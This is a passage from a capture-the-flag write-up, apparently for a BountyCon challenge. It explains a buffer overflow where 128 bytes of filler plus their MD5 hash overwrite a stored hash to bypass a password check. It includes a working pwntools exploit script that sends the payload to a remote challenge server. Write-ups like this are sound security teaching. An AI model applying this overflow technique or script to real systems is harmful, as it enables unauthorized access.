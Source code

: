 ```
undefined8 local_58;
undefined8 local_50;
undefined8 local_48;
undefined8 local_40;
undefined8 local_38;
undefined8 local_30;
```
This means that we can control local_38 and local_30.
Now, the Solution is pretty straight forward. Enter some garbage data of 128 characters + MD5 hash of it. So,128 + 16(MD5 hash) = 144. The program will compute the MD5 hash of the first 128 characters and will compare it with the next 16 characters(local_38 and local_30) which were overwritten by us.

Below is the script that i used.
```python
#!/usr/bin/env python2
from pwn import *
r = remote('ec2-3-11-37-224.eu-west-2.compute.amazonaws.com', 10000)
r.recvuntil('Password: ')
offset = 128
payload = "A"*offset
#############MD5 Payload###############
payload += "\xaf\x35\xb0\xd3\x48\xe5\x16\x20\x36\xe1\x83\x33\x9d\x38\x5b\x0c"# MD5 hash of ("A"*128)
log.info('Sending payload...: {}'.format(payload))
r.sendline(payload)
r.recvuntil('BountyCon')
log.info('Here\'s your flag :)')
log.info('Flag: BountyCon{}'.format(r.recvline()))
r.close()
```

![](/images/Screenshot_3.png){:class="img-responsive"}
